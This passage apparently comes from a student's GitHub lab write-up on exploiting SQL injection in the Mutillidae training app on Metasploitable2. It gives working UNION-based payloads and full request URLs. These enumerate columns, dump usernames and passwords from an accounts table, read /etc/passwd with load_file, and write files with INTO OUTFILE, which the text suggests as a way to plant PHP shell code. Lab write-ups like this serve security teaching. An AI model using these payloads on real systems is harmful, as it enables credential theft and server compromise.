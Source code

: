 The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/d14eb27d-41a1-4ba3-9776-16fb5585588d)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/e7aa1889-af16-44fc-99b9-221e389a5db4)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/14790d68-e91d-46f6-b071-92e143a8b894)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/Udhayasankaran04/sqlinjection/assets/119393933/b4044c51-49cf-4e43-abec-9748a04d298f)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
